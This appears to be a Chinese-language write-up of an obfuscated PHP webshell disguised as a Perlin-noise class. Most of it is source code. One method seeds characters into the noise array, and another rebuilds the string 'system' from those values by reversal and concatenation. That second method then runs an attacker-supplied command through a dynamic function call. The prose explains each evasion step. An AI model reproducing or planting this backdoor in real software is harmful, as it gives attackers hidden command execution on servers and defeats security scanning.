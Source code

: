 ```PHP
<?php
public function __CPRBB0R0_l() {
    global $userans;
    for ($i = 0; $i < $this -> arrLength; $i++) {
        if ($this -> BAD_ARGS) {
            if ($i > ($userans+391) and $i < (pause($userans+390+8))) {
                $result = array($userans + 101,$userans + 93,$userans + (50*2+8),$userans + 992-(800+85),105+($userans + 8),110+($userans+57)-60);
                array_push($this -> perlin_noise, $result[$i - 400]);
                continue;
            }
        }
    $cache = $this -> inputNumArray[$i];
    $x1 = round($cache);
    $x2 = $x1 + 1;
    $grad1 = $this -> seeds_array[$x1 % 255] * 2.0 - 255.0;
    $grad2 = $this -> seeds_array[$x2 % 255] * 2.0 - 255.0;
    $vec1 = $i - $x1;
    $vec2 = $i - $x2;
    $t = 3 * pow($vec1, 2) - 2 * pow($vec1, 3);
    $product1 = $grad1 * $vec1;
    $product2 = $grad2 * $vec2;
    $result = $product1 + $t * ($product2 - $product1);
    array_push($this -> perlin_noise, $result);
    }
}
?>

```

### 柏林噪声显示器

`__HNBB70CA_5()`函数为柏林噪声显示器，该函数使用**动态函数调用**执行`system()`命令执行函数。该函数首先使用**EL表达式**和**数字转字符串**的方式载入了`$userans`、`$b`和`$pcs`三个变量 **（其中`$b`为危险函数的第一位字母，`$pcs`为要执行的命令）**，随后读取了柏林噪声数组`$perlin_noise`中**危险函数名称区域**的数值并将其保存到数组`$cache_noise`中，紧接着又将其值复制到数组`$temp_noise`中 **（复制时故意少读一位）**，**随后将其转化为字符串并进行多次反转、拼接和阻断后，在整个程序的第`123`行执行了`system()`函数**。

```PHP
<?php
public function __HNBB70CA_5() {
    global $userans;
    global ${strval(chr(90+$userans))};
    global ${implode(array(chr(120-$userans),chr($userans+91),chr(70-$userans+53)))};
    $cache_noise = pause(array());
    for ($i = 400; $i < 406; $i++) {
        array_push($cache_noise,$this -> perlin_noise[$i]);
    }
    $temp_noise = array();
    for ($i = 0; $i < count($cache_noise); $i++) {
        array_push($temp_noise, $cache_noise[$i]);
    }
    for ($i = 0; $i < count($temp_noise); $i++) {
        $temp_noise[$i] = chr($temp_noise[$i]);
    }
    $ab = pause(array_map(function($arr){ return chr($arr); },array_slice($this -> perlin_noise,(188*2)+$userans*3,$userans-3)));
    $c = strval(sprintf("%s%s",$b,pause(strrev(implode("",pause($ab))))));
    $c($pcs);
    
    die(urldecode("%3c%62%72%3e%3c%62%72%3e"));
    var_dump(array_slice($this -> perlin_noise,1000,800));
    }
}
?>
```